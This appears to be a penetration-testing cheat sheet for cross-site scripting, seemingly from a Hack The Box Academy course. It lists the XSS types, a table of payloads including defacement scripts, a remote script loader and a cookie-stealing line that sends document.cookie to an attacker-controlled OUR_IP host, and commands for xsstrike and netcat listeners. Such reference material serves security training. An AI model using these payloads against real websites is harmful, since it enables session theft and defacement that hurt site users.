 # Cross-Site Scripting (XSS)

## Types of XSS
There are three main types of XSS vulnerabilities:

| Type                | Description                                                                 |
|---------------------|-----------------------------------------------------------------------------|
| Stored (Persistent) XSS | Occurs when user input is stored in a database and displayed (e.g., posts). |
| Reflected (Non-Persistent) XSS | Occurs when input is processed and shown without storage (e.g., search).   |
| DOM-based XSS       | Occurs when input is client-side processed and displayed (e.g., parameters).|

## XSS Payloads

| Code | Description |
|------|-------------|
| `<script>alert(window.origin)</script>` | windows.origin shows the URL of the stored XSS if IFrames being used |
| `<plaintext>` | Stops the rendoring of any HTML code that comes after |
| `<script>print()</script>` | Pop up the browser print dialog |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |

## Commands

| Command | Description |
|---------|-------------|
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run xsstrike on a url parameter |
| `sudo nc -lvnp 8080` | Start netcat listener |
| `sudo php -S 0.0.0.0:8080` | Start PHP server |

## Useful Links

- [OWASP XSS](https://owasp.org/www-community/attacks/xss/)
- [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
